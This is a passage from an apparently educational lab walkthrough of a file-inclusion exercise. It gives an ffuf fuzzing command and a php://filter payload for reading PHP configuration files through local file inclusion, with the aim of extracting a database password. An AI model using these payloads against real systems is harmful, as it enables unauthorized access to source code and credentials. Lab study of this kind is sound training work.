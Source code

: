 ![Caido - LFI Automate Result](/images/htb/file-inclusion/basic-bypass-exercise-caido-result.png)

## PHP Filters - Exercise
> Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

We'll use the `directory-list-2.3-small.txt` wordlist from the SecLists to perform web content discovery.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
![Ffuf - Content Discovery](/images/htb/file-inclusion/php-filters-ffuf-result.png)

After identifying the PHP file, we'll use the php://filter stream wrapper to encode the file's content in Base64 format. Replace {PHP_PAGE} with the name of the discovered PHP file:

```
php://filter/read=convert.base64-encode/resource={PHP_PAGE}
```
